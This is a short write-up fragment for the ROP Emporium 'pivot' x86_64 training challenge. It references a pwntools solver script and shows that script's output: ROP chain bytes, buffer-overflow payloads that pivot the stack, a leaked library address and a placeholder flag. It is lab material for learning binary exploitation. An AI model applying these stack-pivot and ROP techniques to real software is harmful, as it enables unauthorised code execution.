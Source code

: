 ## Python Script to Get the Flag
- The [get_flag.py](./get_flag.py) Python script (using [Pwntools](https://github.com/Gallopsled/pwntools)) is included for reference. Run it from the same directory as the challenge files:
> $ `python get_flag.py`  
```
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f60a185ef10
Stack pivot: 0x7f60a185ef10
Send a ROP chain now and it will land there
> b' \x07@\x00\x00\x00\x00\x003\n@\x00\x00\x00\x00\x00@\x10`\x00\x00\x00\x00\x00\xe0\x06@\x00\x00\x00\x00\x00`\x07@\x00\x00\x00\x00\x00'
Thank you!

Now please send your stack smash
> b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xf0\x85\xa1`\x7f\x00\x00\xbb\t@\x00\x00\x00\x00\x00\x10\xef\x85\xa1`\x7f\x00\x00\xbd\t@\x00\x00\x00\x00\x00'
Thank you!
foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot

foothold_function address: 0x7f60a1a6196a
b'\x90\x90\x90\x90\x90\x90\x90\x90'
Thank you!

Now please send your stack smash
> b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x81\x1a\xa6\xa1`\x7f\x00\x00'
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
